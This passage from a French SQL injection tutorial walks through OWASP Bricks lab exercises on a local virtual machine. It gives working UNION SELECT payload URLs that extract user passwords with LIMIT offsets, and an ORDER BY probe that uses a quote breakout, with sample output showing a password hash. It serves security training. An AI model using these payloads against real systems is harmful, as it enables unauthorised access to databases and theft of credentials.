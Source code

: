 La page affiche bien le mot de passe de du 1er utilisateur de la base.

![Le mot de passe de admin est admin](images/union_admin.png)

On peut ensuite jouer sur le `LIMIT ` pour afficher d'autres lignes.\
Par exemple `LIMIT 4,1` affiche le mot de passe du 4ème utilisateur.

URL : `http://192.168.56.101/owaspbricks/content-1/index.php?id=1+UNION+SELECT+password,NULL,NULL,NULL,NULL,NULL,NULL,NULL+FROM+users+LIMIT+4,1;-- `

![Requête avec LIMIT 4,1 qui affiche donc la 4ème ligne de la table _users_](images/limit4-1.png)

Félicitations, vous venez d'extraire des mot de passe d'une base de données en exploitant une injection SQL avec l'opérateur `UNION`.

\newpage
## Explication pour content 2 

Même chose que pour l'exercice précédent sauf, qu'il est nécessaire d'ajouter un `'` après le texte pour réaliser l'injection.

URL : `http://192.168.56.101/owaspbricks/content-2/index.php?user=harry%27+ORDER+BY+8;--+`

Notez le "`+`" après le "`--`". Il s'agit d'un espace "` `" encodé en encodage URL.

Requête SQL: 
```
SELECT * FROM users WHERE name='harry' ORDER BY 8;-- '
```

```
+---------+-------+---------------------+---------------
| idusers | name  | email               | password      
+---------+-------+---------------------+--------------- ...
|       3 | harry | harry@getmantra.com | 5f4dcc3b5aa765
+---------+-------+---------------------+---------------

```

La suite est identique à l'exercice content1. On laissera jute le ```'``` en plus dans les requêtes.

\newpage

# Exploiter une injection SQL lorsqu'on ne connait pas le nom des tables et colonnes

Dans certains cas, on arrive à deviner le nom des tables et des colonnes. Dans le cas de `SELECT username, password FROM users`, on a des noms assez classiques.\
Mais que faire si on arrive pas à deviner ces identifiants, où que l'on souhaite extraire d'autres données de la base.

La méthode ci-dessous sera illustrée avec l'exercice __content-3 de OWASP Bricks__.

# Trouver la version de la base de données
